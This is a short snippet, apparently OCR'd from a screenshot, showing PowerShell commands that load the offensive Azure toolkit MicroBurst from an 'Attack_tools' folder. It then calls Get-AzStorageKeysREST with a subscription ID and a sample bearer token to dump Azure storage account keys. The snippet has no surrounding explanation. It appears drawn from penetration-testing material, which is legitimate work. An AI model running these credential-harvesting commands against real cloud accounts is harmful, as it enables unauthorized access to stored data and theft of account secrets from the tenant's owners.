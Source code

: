 cd "C:\Users\Attack_tools\MicroBurst-master"
ipmo .\MicroBurst.psm1 -Verbose
Get-AzStorageKeysREST -SubscriptionId 8f153238-eccc-xxx-xx-3043fbe50918 -token "eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsIng1dCI6Im5PbzNaRHJPRFhFSzFqS1doWHNsSF-sample-token"
